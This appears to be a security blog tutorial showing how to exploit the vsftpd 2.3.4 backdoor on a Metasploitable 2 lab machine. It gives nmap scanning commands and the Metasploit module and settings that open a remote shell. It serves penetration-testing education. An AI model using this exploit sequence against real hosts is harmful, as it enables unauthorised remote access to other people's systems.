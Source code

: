 ```yaml
---

title: "Exploiting vsftpd 2.3.4 on Metasploitable 2 using Metasploit" 
classes: wide 
header: 
    teaser: assets/images/metasploit/vulnerabilidade vsftpd 2.3.4.jpeg 
    overlay\image: assets/images/metasploit/vulnerabilidade vsftpd 2.3.4.jpeg 
    overlay_filter: 0.5 
ribbon: Red 
excerpt: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." 
description: "A step-by-step guide to exploiting the vsftpd 2.3.4 backdoor on Metasploitable 2 using Kali Linux and Metasploit." 
categories:
    - Exploitation
    - Penetration Testing 
tags:
    - Metasploit
    - Ethical Hacking
    - Nmap
    - Cybersecurity 
toc: true 
toc_sticky: true 
toc_label: "On This Blog" 
toc_icon: "biohazard"

---
```


# Intro

In this post, I’ll show how to **find, analyze, and exploit a vulnerability in vsftpd 2.3.4** (an old FTP server with a backdoor) using **Kali Linux** and **Metasploitable 2**. This tutorial is for **educational purposes only** and should only be used in a controlled lab environment. Never test without permission.

---

## **🔍 Step 1: Find the Target’s IP**

First, we need to identify the IP address of our **Metasploitable 2** machine. Run:

```bash
ip a  # On Linux
ifconfig  # Alternative command
```

On **Kali**, use:

```bash
nmap -sn 192.168.93.0/24
```

This will **list all devices** on the network, helping us locate Metasploitable 2 (e.g., **192.168.93.129**).

---

## **🔎 Step 2: Scan for Open Ports**

Once we have the target's IP, let’s **scan for open services**:

```bash
nmap -sV -p- 192.168.93.129
```

🔹 `-sV`: Detects service versions\
🔹 `-p-`: Scans **all** 65,535 ports

🚀 **Result:** Port **21 (FTP)** is open, running **vsftpd 2.3.4**, which is known to have a **backdoor**.

---

## **📌 Step 3: Exploit vsftpd 2.3.4**

Now, we use **Metasploit** to exploit the vulnerable service:

```bash
msfconsole
```

Select the exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Check the required options:

```bash
show options
```

Set the **target IP (RHOSTS)** and the **target port (RPORT)**:

```bash
set RHOSTS 192.168.93.129
set RPORT 21
```

Run the exploit:

```bash
exploit
```

If successful, this gives us a **remote shell** on the target! 🎯

---

## **🖥️ Step 4: What Can We Do With the Shell?**

Now that we have access, we can: ✔️ List files: `ls`\
✔️ Check users: `whoami`\
✔️ Read system info: `uname -a`

This is a basic **proof of concept (PoC)** of how an attacker can exploit outdated services.

---

## **⚠️ Ethical Hacking Reminder**

🔹 This tutorial is **for educational purposes only**.\
🔹 Always have **explicit permission** before testing security.\
🔹 Keep your systems **updated** to avoid these vulnerabilities.

---

## **📚 More Resources**

🔗 Metasploitable 2: [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)\
🔗 Metasploit Docs: [https://docs.metasploit.com/](https://docs.metasploit.com/)\
🔗 Nmap: [https://nmap.org/](https://nmap.org/)

Would you like to see more tutorials like this? Let me know in the comments! 🚀🔍 #CyberSecurity #EthicalHacking #Metasploit #PenTesting